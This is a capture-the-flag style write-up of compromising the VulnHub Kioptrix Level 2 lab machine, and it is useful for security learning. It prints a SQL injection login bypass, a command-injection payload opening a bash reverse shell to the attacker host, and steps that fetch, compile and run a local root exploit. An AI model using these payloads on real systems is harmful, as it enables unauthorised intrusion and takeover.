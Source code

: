 ```yaml
---
layout: post
title: "Write-up for Kioptrix 2"
categories: jekyll
permalink : write-ups/kioptrix_2
---
```


#### Kioptrix Level 2

Hey there, welcome back.. for today, we will play with [Kioptrix 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

First, I ran ifconfig and netdiscover to find my Kali ip and the target ip.
>ifconfig
>netdiscover -i eth0 -r 192.168.1.0/24

![ifconfig](/musubi/assets/kioptrix_2/ifconfig_netdiscover.png)

and after that, I scanned the target using the following nmap options;
>nmap -sS -sV -A -v 192.168.1.101

![first_result](/musubi/assets/kioptrix_2/nmap_result.png)

as we can see above, the target is using **OpenSSH 3.9p1** and **Apache httpd 2.0.52**. After a quick find on `searchsploit`, the only thing I could find is Denial of service (DoS) attack on the machine..

![only_dos](/musubi/assets/kioptrix_2/only_dos.png)

And yeah, we don't want to DoS it, it's not our job for now.. ಠ_ಠ

So, I'll go with web-based attack.

I used nikto and dirb on the target to list directories and find vulnerable configurations.

![nikto_dirb](/musubi/assets/kioptrix_2/nikto_dirb.png)

Okay, nothing interesting here..

Let's open the browser and connect to the target webpage since the port `80` is open (based on the nmap result)

![webpage](/musubi/assets/kioptrix_2/homepage.png)

Wow, what a beautiful homepage.. ✖‿✖

The first thing that came to my mind was.. SQLi attack,so I inserted
> ' or ''='

in the username and password field, and it worked! Yayy..

![pingit](/musubi/assets/kioptrix_2/ping.png)

Based on the image, the form will ping any ip that we put inside the text field, so I tried to ping my Kali machine located at `192.168.1.5`.

![pingKali](/musubi/assets/kioptrix_2/ping_Kali.png)

The output showed that the form executed a simple `ping` command, something like this;
> ping 192.168.1.5 -c 3

I guess the form will send what's inside the text field and pass it into ping command of the machine OS.

Then, it is possible that the field is vulnerable to multiple code execution using the `;` symbol. The symbol is usually used to separate and execute different commands, for example;
> cat meow.txt; echo "y4t0-chan kawaii"

will show the output of the file named **meow.txt** and then print out the word **y4t0-chan kawaii**

To test whether it is possible, I put `192.168.1.5;ls` in the text field.

![OS_command](/musubi/assets/kioptrix_2/OS_command_exec.png)

and it worked.

Now, let's use this to gain shell from our Kali machine.

I tried to use `netcat` but nothing happened, so I used a workaround that uses `bash` to create a reverse shell back to the Kali machine.

First, we need to set up a listener on our Kali machine by using following command;
> nc -lvp 1234

![listener](/musubi/assets/kioptrix_2/nc_listener.png)

and then , on the text field of the form, add;
> 192.168.1.5;bash -i >& /dev/tcp/192.168.1.5/1234 0>&1

![submit](/musubi/assets/kioptrix_2/submit_r_shell.png)

The second command was basically used to open a reverse shell and connect to the listening port of our Kali machine.

Once connected, I tried to find more information about the target.

![connected](/musubi/assets/kioptrix_2/connected_shell.png)

Since the user is **apache** and not in the **superuser** group, I need to use privilege escalation attack to gain root access.

After using some keywords to search for available exploits in `searchsploit`, I stumbled upon a local priv. esc. attack for **CentOS 4.5**.

![9542](/musubi/assets/kioptrix_2/9542.png)

So, I copied the exploit into my `/var/www/html` directory and I fetched it from the target machine using `wget` method.

### in **Kali**
> cp /usr/share/exploitdb/exploits/linux_x86/local/9542.c

I needed to ensure my apache service is running so, I ran;
> service apache2 restart

### in **CentOS 4.5**
since I cant download it directly into the current directory, I moved myself into the /tmp folder.
> cd /tmp  
> wget http://192.168.1.5/9542.c  

and then, I compiled and ran the exploit...

(ﾉ◕ヮ◕)ﾉ*:･ﾟ✧

> gcc 9542.c -o priv  
> chmod +x priv  
> ./priv  

![priv.png](/musubi/assets/kioptrix_2/priv.png)

... and we finally got our root access. That's all for today. Thank you..
